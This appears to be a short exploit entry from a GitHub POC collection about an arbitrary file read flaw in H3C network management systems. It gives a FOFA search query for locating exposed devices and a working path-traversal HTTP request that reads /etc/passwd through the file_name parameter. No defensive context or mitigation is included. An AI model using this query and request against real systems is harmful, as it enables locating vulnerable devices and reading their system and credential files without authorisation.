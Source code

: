 
## H3C网络管理系统任意文件读取漏洞

## fofa
```
body="webui/js/jquerylib/jquery-1.7.2.min.js"
```

## poc
```
GET /webui/?file_name=../../../../../etc/passwd&g=sys_dia_data_down HTTP/1.1

```
![image](https://github.com/wy876/POC/assets/139549762/e5bc6b46-2181-4d89-bab2-b6c1e2db7bca)

![image](https://github.com/wy876/POC/assets/139549762/d94b6fad-82fa-49d5-b236-c3a148380aca)
